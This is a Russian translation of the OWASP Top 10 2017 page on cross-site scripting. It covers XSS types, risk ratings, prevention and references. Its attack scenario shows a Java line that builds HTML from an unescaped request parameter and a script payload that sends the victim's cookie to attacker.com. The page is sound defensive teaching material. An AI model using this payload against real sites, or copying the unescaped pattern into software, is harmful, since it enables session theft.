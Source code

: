 # A7:2017 Межсайтовое выполнение сценариев (XSS)

| Источники угроз/Векторы атак | Недостатки безопасности           | Последствия               |
| -- | -- | -- |
| Зависит от прил. : Сложность эксплуатации 3 | Распространённость 3 : Сложность обнаружения 3 | Технические 2 : Для бизнеса ? |
| Автоматизированные инструменты могут обнаруживать и эксплуатировать все три вида межсайтового выполнения сценариев, более того, фреймворки для их эксплуатации можно найти в открытом доступе.  | Межсайтовое выполнение сценариев (XSS) является второй по распространенности уязвимостью из Топ-10 OWASP и обнаруживается в двух третях всех приложений. Автоматизированные инструменты могут обнаруживать XSS автоматически, особенно в случае проработанных технологий, таких как PHP, J2EE / JSP и ASP.NET. | Межсайтовое выполнение сценариев будет иметь последствия средней степени тяжести в случае отраженного XSS или XSS на основе объектной модели документа и серьезные последствия в случае межсайтового выполнения хранимых сценариев с удаленным выполнением кода в браузере пользователя, например, кража учетных данных, перехват сессий или установка вредоносного ПО. |

## Является ли приложение уязвимым?

Существует три типа XSS, обычно эксплуатируемых в браузерах:

* __Отраженное XSS__: Приложение или API включает непроверенные и неэкранированные данные в состав HTML. Успешная атака может привести к выполнению произвольного HTML- и JavaScript-кода в браузере жертвы. Обычно злоумышленнику необходимо убедить пользователя перейти по ссылке, ведущей на вредоносную страницу, например, используя атаку типа "водопой" или рекламу.
* __Межсайтовое выполнение хранимых сценариев__: Приложение или API сохраняет необработанные входные данные, с которыми затем взаимодействуют пользователи или администраторы. Межсайтовое выполнение хранимых сценариев обычно считается очень опасной уязвимостью.
* __XSS на основе объектной модели документа (ОМД)__: JavaScript-фреймворки, одностраничные приложения и API, динамически добавляющие вредоносные данные на страницы, подвержены XSS на основе ОМД. В идеале, приложение не должно отправлять вредоносные данные небезопасным JavaScript API.

Обычно XSS используется для перехвата сессий, кражи учетных записей, обхода МФА, замены или подмены узлов ОМД (напр., троянские панели входа в систему), а также атак на браузеры, например, для загрузки вредоносного ПО, регистрации нажатий и других атак на стороне клиента.

## Как предотвратить

Для предотвращения XSS необходимо отделять непроверенные данные от активного контента браузера. Этого можно достичь следующими способами:

* Использовать фреймворки с автоматическим экранированием данных, как в последних версиях Ruby on Rails и React JS. Необходимо также проанализировать ограничения XSS-защиты каждого фреймворка и обеспечить соответствующую обработку этих исключений.
* Экранировать недоверенные данные из HTTP-запросов, основываясь на контексте, в HTML-коде (теле, атрибутах, JavaScript, CSS или URL) для предотвращения отраженного XSS и межсайтового выполнения хранимых сценариев. ["Памятка OWASP: Предотвращение XSS"](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) содержит подробные инструкции по экранированию данных.
* Применять контекстное кодирование при изменении документа в браузере пользователя для предотвращения XSS на основе ОМД. Если это невозможно, то применять контекстное кодирование к API браузера (см. ["Памятку OWASP: Предотвращение XSS на основе ОМД"](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)).
* Использовать [политику защиты содержимого (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) для предотвращения XSS. Эта мера эффективна, если отсутствуют уязвимости, позволяющие внедрить код через локальные файлы (напр., используя подмену путей или уязвимые библиотеки из разрешенных сетей доставки контента).

## Примеры сценариев атак

**Сценарий №1**: Приложение использует непроверенные данные при создании HTML-сниппета без их подтверждения или экранирования:

```
(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```
Злоумышленник меняет параметр 'CC' в браузере на:

```
'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'
```

Идентификатор сессии жертвы отправляется на сайт злоумышленника, позволяя атакующему перехватить текущую сессию пользователя.

**Примечание**: злоумышленник может использовать XSS для обхода защиты от межсайтовой подмены запросов (CSRF), используемой в приложении.

## Ссылки

### OWASP

* [Проактивная защита OWASP: Кодирование данных](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [Проактивная защита OWASP: Проверка данных](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [Стандарт подтверждения безопасности приложений OWASP: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [Руководство OWASP по тестированию: Отраженное межсайтовое выполнение сценариев](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [Руководство OWASP по тестированию: Межсайтовое выполнение хранимых сценариев](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [Руководство OWASP по тестированию: XSS на основе объектной модели документа](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [Памятка OWASP: Предотвращение XSS](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [Памятка OWASP: Предотвращение XSS на основе ОМД](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [Памятка OWASP: Обход фильтра XSS](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [Проект кодировщика Java от OWASP](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### Сторонние

* [CWE-79: Некорректная нейтрализация входных данных от пользователей](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Внедрение в пользовательские шаблоны](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
